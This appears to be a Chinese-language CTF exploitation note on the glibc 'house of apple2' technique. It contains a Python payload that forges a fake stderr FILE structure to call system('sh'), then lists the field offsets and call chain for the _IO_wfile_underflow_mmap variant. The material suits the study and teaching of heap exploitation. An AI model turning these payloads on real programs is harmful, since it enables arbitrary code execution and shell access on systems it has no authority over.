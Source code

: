 在一个`chunk`上完成所有操作的实例`exp`如下：

```python
self_chunk = libc.sym['_IO_2_1_stderr_']
func = libc.sym['system']
payload = b'  sh'
payload = payload.ljust(0x20, b'\x00') + p64(0) + p64(1)
payload = payload.ljust(0x68, b'\x00') + p64(func)
payload = payload.ljust(0x88, b'\x00') + p64(libc.sym['_environ']-0x10)
payload = payload.ljust(0xa0, b'\x00') + p64(self_chunk)
payload = payload.ljust(0xd8, b'\x00') + p64(libc.sym['_IO_wfile_jumps'])
payload = payload.ljust(0xe0, b'\x00') + p64(self_chunk)
```

# house of apple2 (_IO_wfile_underflow_mmap)

## 适用版本

`Latest`

## 利用方式

主要分为三个部分，`fp`构造如下：

- `fp->_flags`设置为`~4`。例如，设置为`空格sh;`，或者设置为`0`，偏移为`0x0`
- `fp->_IO_read_end > fp->_IO_read_ptr`，偏移为`0x10`和`0x8`
- `fp->_IO_write_ptr > fp->_IO_write_base`，偏移为`0x28`和`0x20`
- `fp->_IO_wide_data`设置为可控堆块`A`的地址，偏移为`0xa0`
- `fp->vtable`要使得调用函数`_IO_wfile_underflow_mmap`，可以设置为`_IO_wfile_jumps_mmap`的偏移，偏移为`0xd8`

可控堆块`A`为`_IO_wide_data`，构造如下：

- `_wide_data->_IO_read_ptr > _wide_data->_IO_read_end`，偏移为`0x8`和`0x0`
- `_wide_data->_IO_buf_base`设置为`0`，偏移为`0x30`
- `_wide_data->_IO_save_base`设置为`0`，偏移为`0x40`
- `_wide_data->_wide_vtable`设置为可控堆块`B`的地址，偏移为`0xe0`

`chunk B`作为`fake vtable`，会调用其偏移`0x68`处的函数。因此：

- `chunk B`偏移`0x68`处为调用的函数。
- 调用时`rdi`的值即为`fp->_flags`

## 实现效果

任意函数执行，包括`ROP`

## 函数调用链

```c
_IO_wfile_underflow_mmap
    _IO_wdoallocbuf
        _IO_WDOALLOCATE
            *(fp->_wide_data->_wide_vtable + 0x68)(fp)
```

